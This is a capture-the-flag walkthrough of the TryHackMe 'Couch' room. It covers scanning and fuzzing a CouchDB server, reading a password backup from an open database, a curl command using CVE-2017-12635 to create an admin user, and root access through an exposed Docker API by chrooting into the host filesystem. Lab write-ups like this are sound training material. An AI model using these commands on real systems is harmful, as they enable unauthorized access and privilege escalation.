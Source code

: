 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Couch
# DESCRIPTION       . Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/couch
```

```
sudo nmap -sSVC -T5 -Pn -p- 10.10.46.174 -oN couch 
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 349d390934304b3da71edfeba3b0e5aa (RSA)
|   256 a42eef3a845d211bb9d42613a52ddf19 (ECDSA)
|_  256 e16d4dfdc8008e86c2132dc7ad85139c (ED25519)

5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 5984 

 - Navigating to the webserver, we get the following answer

```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

- With not too much information, I've decided to fuzz for directories.

```
ffuf -u http://10.10.46.174:5984/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```

```
secret                  [Status: 200, Size: 229, Words: 1, Lines: 2]
couch                   [Status: 200, Size: 228, Words: 1, Lines: 2]
_log                    [Status: 200, Size: 1000, Words: 139, Lines: 11]
```

- Okay. Navigating to any of the first two endpoints, we get a similar result

```
{"db_name":"secret","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":339,"instance_start_time":"1705796027027560","disk_format_version":6,"committed_update_seq":2}


{"db_name":"couch","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":316,"instance_start_time":"1705796909439680","disk_format_version":6,"committed_update_seq":2}
```

- The third endpoint outputs the last 11 log entries for the CouchDB service.

___

- I took a break to read about CouchDB and here's what I found.

- We can list the existing databases on the server using the following curl command (or by navigating to that endpoint):

```
curl -X GET http://10.10.46.174:5984/_all_dbs
```

```
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

- And we got back a list of databases. Obviously, I'm mostly curious about `secret`.

- We can list documents from within that database and read a document with the following commands

**** LIST DOCUMENTS

```
curl -X GET http://10.10.46.174:5984/secret/_all_docs
```

```
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
```

**** READ DOCUMENTS

```
curl -X GET http://10.10.46.174:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
```

```
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:t{REDACTED}##"}
```

___ 

#### EXTRA

- Fauxton allows for visual representation of CouchDB and is installed on the server.
- Fauxton is available at `http://10.10.46.174:5984/_utils`

___

- Everyone is admin --- see bottom right corner. 
- Setup a local admin account so we have the `Signup` or `Login` options.

- This version of CouchDB is vulnerable to [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635) which allows us to add a custom admin user.

```
curl -X PUT -d '{"type":"user","name":"myusername","roles":["_admin"],"roles":[],"password":"mypassword"}' ip:5984/_users/org.couchdb.user:myusername -H "Content-Type:application/json"
```

- The following curl command would add the `myusername:mypassword` account with admin rights.

- This could've been used to bypass authentication (actually, we don't bypass it, but we don't need to know existing credentials --- You know what I mean) if `curl -X GET http://10.10.46.174:5984/_all_dbs` would've asked for credentials --- by responding with `401 unauthorised`.

- The format for that would be `curl -X GET http://myusername:mypassword@IP:5984/_all_dbs`. 

- But to see that the user was added, you can authenticate now using `myusername:mypassword`.

- Useless for this CTF, but good to know to get a better understanding of how CouchDB is working and potential vulnerabilities.

___
#### PORT 22

- The first flag is in `/home/atena/user.txt`.

- The user `atena` can't run anything as `sudo`.

- During enumeration, I decided to take a look in `/home/atena/.bash_history` file

- I found the following, no idea if this was the intented way of doing it. (probably not, it's the history since the couchDB was downloaded/configured on the server.)

```
{...}
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
{...}
```

- It seems we have a docker container running. This can be confirmed by the fact that `docker` command is available (however, we're not able to run docker commands).

- I've used the following command to access the container

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/sh
```

- The last flag is in `/root/root.txt`.

- The intended way was to probably identify the custom port using netstat.

```
netstat -tulpn
```

```
...
tcp        0      0 localhost:2375          *:*                     LISTEN      -        
...
```

- Then, we could've used SSH to port-forward this.

```
ssh -L 1234:127.0.0.1:2375 atena@10.10.46.174
```

- This would make the whatever service (supposing we didn't knew yet it was a docker container) was running on `2375` available on our host at `127.0.0.1:1234`.

- Next, we could use `nmap` to get a footprint of the running service

```
PORT     STATE SERVICE VERSION
1234/tcp open  docker  Docker 18.09.7 (API 1.39)
| docker-version: 
|   ApiVersion: 1.39
|   Version: 18.09.7
|   GoVersion: go1.10.4
|   MinAPIVersion: 1.12
|   Platform: 
|     Name: 
|   Components: 
|     
|       Version: 18.09.7
|       Details: 
|         ApiVersion: 1.39
|         GoVersion: go1.10.4
|         Arch: amd64
|         GitCommit: 2d0083d
|         Os: linux
|         BuildTime: 2020-10-14T17:25:58.000000000+00:00
|         MinAPIVersion: 1.12
|         KernelVersion: 4.4.0-193-generic
|         Experimental: false
|       Name: Engine
|   KernelVersion: 4.4.0-193-generic
|   BuildTime: 2020-10-14T17:25:58.000000000+00:00
|   Arch: amd64
|   Os: linux
|_  GitCommit: 2d0083d
Service Info: OS: linux
```

- And then, we could use the same command as above.

```
pi@raspberry:~ $ docker -H 127.0.0.1:1234 run --rm -it --privileged --net=host -v /:/mnt alpine chroot /mnt /bin/sh
```